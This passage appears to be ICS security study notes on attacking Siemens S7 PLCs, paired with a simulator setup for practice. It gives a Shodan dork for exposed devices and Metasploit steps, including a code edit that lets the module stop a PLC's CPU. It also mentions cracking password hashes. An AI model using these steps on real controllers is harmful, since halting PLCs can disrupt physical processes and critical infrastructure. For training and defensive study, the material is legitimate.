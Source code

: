 ## S7comm

Wireshark wiki S7comm: https://wiki.wireshark.org/S7comm

Shodan dork: *port:102*

There should be also some metasploit modules:

```
$ searchsploit Siemens Simatic S7
```
Add exploit *19831.rb* to metasploit:

Metasploit comes with a ton of exploits already included; however, this Siemens exploit needs to be added. As the exploit was written with the usage of Metasploit in mind, this is a simple task. To add the module, run the following commands on the Kali Linux VM:

To adjust for using a newer Metasploit framework, we need to change the same code in the 19831.rb file. In the file take a look on the line 39:

```OptInt.new('MODE', [false, 'Set true to put the CPU back into RUN mode.',false]),```

Change the preceding to this:

```OptInt.new('MODE', [false, 'Mode 1 to Stop CPU. Set Mode to 2 to put the CPU back into RUN mode.',1]),```

Now copy module to msf user directory:

```
$ cd ~/.msf4/modules/
~/.msf4/modules $ mkdir -p auxiliary/hardware/scada
~/.msf4/modules $ cd auxiliary/hardware/scada
~/.msf4/modules/auxiliary/hardware/scada $ cp /usr/share/exploitdb/platforms/hardware/remote/19831.rb 19831.rb
~/.msf4/modules/auxiliary/hardware/scada $ service postgresql start
~/.msf4/modules/auxiliary/hardware/scada $ msfconsole
```

Now go with metasploit:

```
msf > reload_all
msf > search siemens
msf > use auxiliary/hardware/scada/19831
msf auxiliary(19831) > show options
msf auxiliary(19831) > set RHOSTS 172.16.252.134
RHOSTS => 172.16.252.134
msf auxiliary(19831) > exploit
[+] 172.16.252.134 PLC is running, iso-tsap port is open.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
On newer Siemens devices, they added a password for certain actions! Use *s7_password_hashes_extractor.py* to extract hash and crack it online!

### Siemens S7 PLC simulator

If you wanna play around, you can install an S7 simulator written on python:


1. Download *snap7-full-x.x.x.zip*: https://osdn.net/projects/sfnet_snap7/downloads/1.4.0/snap7-full-1.4.0.zip/

2. Unzip with name snap7-full in ~/

3. Execute the following commands

```
$ cd ~/snap7-full
$ sudo apt-get install python-pip
$ sudo -H pip install python-snap7
$ cd build/unix
$ make -f x86_64_linux.mk
$ cd ../bin/x86_64-linux/
$ sudo cp libsnap7.so /usr/lib
$ sudo ldconfig
$ sudo python
>>> import snap7
>>> s7server = snap7.server.Server()
>>> s7server.create()
>>> s7server.start()
>>> s7server.get_status()
('SrvRunning', 'S7CpuStatusRun', 0)
>>>
```

Now the simulator is ready!

PS: I use Ubuntu 16 on a VM.

### Conclusions

Resources and bibliography:

  * **Industrial Cybersecurity - Efficiently secure critical infrastructure systems** by *Pascal Ackerman*
  * **HACKING EXPOSED: ICS and SCADA Security Secrets and Solutions** by *C. E. Bodungen, B. L. Singer, A. Shbeeb, S. Hilt, K. Wilhoit*
  * **Cybersecurity for Industrial Control Systems: SCADA, DCS, PLC, HMI, and SIS** by *T. Macaulay, B. L. Singer*
  * https://media.blackhat.com/bh-us-11/Beresford/BH_US11_Beresford_S7_PLCs_WP.pdf